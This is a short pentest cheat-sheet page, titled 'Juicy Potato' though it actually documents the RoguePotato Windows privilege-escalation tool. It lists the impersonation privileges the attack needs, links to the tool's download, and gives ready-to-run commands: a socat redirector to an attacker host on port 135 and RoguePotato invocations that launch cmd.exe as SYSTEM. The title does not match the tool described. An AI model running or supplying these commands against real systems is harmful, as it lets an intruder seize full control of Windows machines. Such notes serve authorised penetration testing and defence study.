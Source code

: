 # Juicy Potato

### Table of Contents
- [Download](#download)
- [How it works](#how-it-works)
- [Prerequisite Privileges needed](#prerequisite-privileges-needed)
- [Parameters](#parameters)
- [References](#references)

### Download
[Rogue Potato Releases](https://github.com/antonioCoco/RoguePotato/releases)

### How it works:
![The overall process of how this works](https://decoderblogblog.files.wordpress.com/2020/05/flow_graph_2.png?w=1024&h=233)

### Prerequisite Privileges needed
`SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`

### Parameters
**Get a list of CLSIDs here**: [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

```
Mandatory args:
-r remote_ip: ip of the remote machine to use as redirector
-e commandline: commandline of the program to launch


Optional args:
-l listening_port: This will run the RogueOxidResolver locally on the specified port
-c {clsid}: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-p pipename_placeholder: placeholder to be used in the pipe name creation (default: RoguePotato)
-z : this flag will randomize the pipename_placeholder (don't use with -p)


Examples:
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

### References
- [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
- [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

